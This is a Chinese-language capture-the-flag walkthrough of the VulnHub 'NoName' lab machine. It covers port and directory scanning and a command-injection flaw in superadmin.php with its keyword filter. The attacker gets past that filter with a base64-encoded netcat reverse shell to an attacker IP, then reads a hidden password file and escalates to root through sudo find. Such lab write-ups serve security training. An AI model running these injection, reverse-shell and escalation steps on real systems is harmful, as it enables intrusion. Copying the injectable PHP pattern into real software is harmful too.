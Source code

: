 # NoName

> https://download.vulnhub.com/haclabs/HL.ova

靶场IP：`192.168.32.22`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.22 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 00:28 EDT
Nmap scan report for 192.168.32.22
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:74:12:22 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds

```

访问80端口，但是无法执行ping命令。

![image-20220914122855710](../../.gitbook/assets/image-20220914122855710-1675840113275948.png)

爆破目录，找到：`/superadmin.php `

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.32.22 -w /usr/share/wordlists/dirb/big.txt -x .php   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/14 00:31:46 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/admin                (Status: 200) [Size: 417]
/index.php            (Status: 200) [Size: 201]
/server-status        (Status: 403) [Size: 278]
/superadmin.php       (Status: 200) [Size: 152]
                                               
===============================================================
2022/09/14 00:32:12 Finished
===============================================================
                                                                  
```

访问：`/superadmin.php `

![image-20220914123259003](../../.gitbook/assets/image-20220914123259003-1675840113275949.png)

执行命令

![image-20220914123334005](../../.gitbook/assets/image-20220914123334005-1675840113275950.png)

查看`superadmin.php`源码，开源发现有些命令会被过滤。

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
>
```

使用base64绕过

```
┌──(root㉿kali)-[/tmp]
└─# echo 'nc.traditional  -e /bin/bash 192.168.32.5 12345' | base64
bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK
```

```
ping 127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK=" | base64 -d`
```

![image-20220914124215641](../../.gitbook/assets/image-20220914124215641-1675840113275951.png)

有隐藏文件

![image-20220914133210504](../../.gitbook/assets/image-20220914133210504-1675840113275952.png)

找属于yash用户的文件

```
www-data@haclabs:/home/yash$ find / -type f -user yash 2>/dev/null
find / -type f -user yash 2>/dev/null
/home/yash/flag1.txt
/home/yash/.bashrc
/home/yash/.cache/motd.legal-displayed
/home/yash/.profile
/home/yash/.bash_history
/usr/share/hidden/.passwd
```

```
www-data@haclabs:/home/yash$ cat /usr/share/hidden/.passwd
cat /usr/share/hidden/.passwd
haclabs1234
```

切换到`haclabs`用户

```
www-data@haclabs:/home/yash$ su haclabs
su haclabs
Password: haclabs1234

```

查看sudo列表

![image-20220914133509818](../../.gitbook/assets/image-20220914133509818-1675840113275953.png)

sudo提权

```
sudo -u root find . -exec /bin/bash \; -quit
```

![image-20230208150840891](../../.gitbook/assets/image-20230208150840891.png)
